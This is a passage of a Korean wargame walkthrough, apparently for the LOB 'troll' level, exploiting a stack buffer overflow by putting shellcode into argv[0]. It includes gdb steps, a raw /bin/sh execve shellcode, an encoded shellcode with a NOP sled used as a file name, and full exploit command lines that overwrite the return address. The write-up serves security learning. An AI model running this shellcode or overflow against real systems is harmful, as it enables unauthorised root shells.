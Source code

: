 ```
0xbffffdfc:	 "i686"
0xbffffe01:	 "/tmp/troll"
```
우리가 입력한 argv[0]의 값이 메모리에 그대로 남게 되는데, 메모리 주소는 변경된다.... 무튼


### 3. exploit code
```
cp troll /tmp/troll
gdb -q /tmp/troll

b *main+317
r `python -c 'print "A"*44+"BBB\xbf"'`
x/10000s $esp
```
위와 같이 입력 시 argv[0]의 위치를 알 수 있다.

```
0xbffffdfc:	 "i686"
0xbffffe01:	 "/tmp/troll"
0xbffffff1:	 "/tmp/troll"
```

argv[0]인 /tmp/troll의 위치는 0xbffffe01, 0xbffffff1

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
여기에 위의 쉘 코드를 넣게 되면 어떨까?

```
cp  ~/troll `python -c 'print  "\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```
위와 같이 파일 복사

```
./`python -c 'print  "\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` `python -c 'print "A"*44+"\xbf\xbf\xbf\xbf"'`
```
파일 실행을 하면 segment 오류가 발생한다.
gdb -q -c core 명령어를 이용하여 x/1000s $esp 를 확인해 본다.

```
0xbffffb24:	 "./", '\220' <repeats 198 times>..
0xbfffff01:	 "./", '\220' <repeats 198 times>...
```

nop을 많이 넣게 되고 마지막 argv[0] 값이 커널 메모리를 건드리므로 오류가 발생한다.

```
./`python -c 'print  "\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` `python -c 'print "A"*44+"\x24\xfb\xff\xbf"'`
```
